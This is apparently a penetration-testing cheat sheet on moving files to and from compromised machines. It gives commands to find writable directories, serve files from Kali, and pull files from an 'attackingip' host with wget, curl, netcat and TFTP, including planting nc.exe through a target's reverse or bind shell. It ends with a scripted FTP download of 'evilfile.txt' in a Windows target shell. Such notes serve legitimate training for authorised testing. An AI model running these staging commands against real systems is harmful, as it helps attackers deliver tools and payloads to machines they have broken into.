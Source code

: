 ## File Transfers
#### Find writable directories in Linux
```
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
```
#### To host files in Kali
```
python -m SimpleHTTPServer 80
```
#### To download files
```
wget http://attackingip/file.ext
# or
curl http://attackingip/file.ext > file.ext

```
#### Netcat File Transfer
```
# Setup a listener to receive file
nc -nlvp 55555 > file

# Now send the file
nc iptoreceivefile 55555 < file 
```
#### TFTP UDP Transfer
```
# Create directory to serve files
mkdir /tftp

# Start atftpd daemon and listen on UDP port 69 using /tftp as root
atftpd --daemon --port 69 /tftp

# Copy file to share to host directory
cp /usr/share/windows-binaries/nc.exe /tftp/

# In your reverse/bind shell on the target machine, change 10.11.1.140 to attacking ip
tftp -i 10.11.1.140 GET nc.exe
```
---
#### FTP File Transfer
On attacking machine, setup an ftp server
```
apt-get install pure-ftpd
```

Download and run the following setup file, it will create an ftp user 'bedford'
[setup-ftp](/setup-ftp)

Change user permissions, run file and set password on request
```
chmod 755
./setup-ftp
```

Copy and paste the following code into your Windows target bind/reverse shell
```
echo open 10.11.1.140 21> ftp.txt
echo user bedford>> ftp.txt
echo urpasswd>> ftp.txt
echo bin>> ftp.txt
echo GET evilfile.txt>> ftp.txt
echo bye>> ftp.txt
```
Now in your Windows bind/reverse shell run the ftp.txt file
`ftp -v -n -s:ftp.txt`

---
